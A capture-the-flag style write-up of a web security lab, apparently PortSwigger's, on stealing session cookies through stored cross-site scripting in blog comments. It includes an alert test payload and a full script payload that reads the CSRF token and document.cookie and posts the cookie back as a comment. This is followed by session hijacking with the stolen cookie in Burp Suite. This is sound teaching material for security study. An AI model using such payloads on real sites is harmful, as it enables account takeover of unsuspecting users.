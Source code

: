 # Challenge: Exploiting cross-site scripting to steal cookies
- Category: Web

## Description

## Flag: 


## Solution
Opening the website, it was a blogpage with a login page and comment boxes under each blog post.

To check if XSS attacks work on this website i commented `<script>alert('hmmm')</script>`

<img width="578" height="208" alt="image" src="https://github.com/user-attachments/assets/07299798-dc55-48f1-a055-db8e944b6aa5" />

This confirmed that the website is vulnerable to XSS attacks, since `alert()` created a popup window.

When i sent my comment, using proxy mode on BurpSuite i found

<img width="1318" height="428" alt="image" src="https://github.com/user-attachments/assets/fb4fef24-f6b9-44ea-9ef6-60e460db082a" />

Here the important parts are `Cookie: session=nXyCSGTAzjBOZrIXWrgiGfsvN0TRqEGb` and `csrf=yaei4oLq8uQ74HMVaQcDv5vZAkovjTu3`
Now, i know that the cookie and csrf token can be retrieved from the server so, i used
- `document.getElementsByName('csrf')[0].value` in the browser console returned `yaei4oLq8uQ74HMVaQcDv5vZAkovjTu3` to get the csrf 
- `document.cookie` to get `'session=nXyCSGTAzjBOZrIXWrgiGfsvN0TRqEGb'` to get the cookie.

since i now know how to get the csrf and cookie of the session, i looked for the form element and found
```
<form action="/post/comment" method="POST" enctype="application/x-www-form-urlencoded">
    <input required type="hidden" name="csrf" value="uKBG6nKCcfC7oLo8VvkRbR3pQZXHqupD">
    <input required type="hidden" name="postId" value="7">
    <label>Comment:</label>
    <textarea required rows="12" cols="300" name="comment"></textarea>
            <label>Name:</label>
            <input required type="text" name="name">
            <label>Email:</label>
            <input required type="email" name="email">
            <label>Website:</label>
            <input pattern="(http:|https:).+" type="text" name="website">
    <button class="button" type="submit">Post Comment</button>
</form>
```
Based on this, i made my own payload
```
<script>
window.addEventListener('DOMContentLoaded', function() {

var token = document.getElementsByName('csrf')[0].value
var data = new FormData();

data.append('csrf', token);
data.append('postId', 8);
data.append('comment', document.cookie);
data.append('name', 'hhhh');
data.append('email', 'hhh@email.com');

fetch('/post/comment', {
    method: 'POST',
    mode: 'no-cors',
    body: data
});

});
</script>
```
This got me the csrf and cookie 

<img width="545" height="128" alt="image" src="https://github.com/user-attachments/assets/477a46a6-db81-4c92-9f4e-6897f2d744da" />

Now, i opened the `my-account` page in BurpSuite on repeater mode and added `Cookie: session=91jTtW8EzZmtQ5SQHLEHcpUX5vrm1WdH` to the request and solved the challenge.

<img width="719" height="367" alt="image" src="https://github.com/user-attachments/assets/a1f122f5-7729-457e-9242-15039b74ae98" />

<img width="1780" height="645" alt="image" src="https://github.com/user-attachments/assets/a67bd274-9871-4c98-8966-c1deca117811" />

## References
- https://portswigger.net/web-security/csrf
- https://portswigger.net/web-security/cross-site-scripting
- https://owasp.org/www-community/attacks/xss/
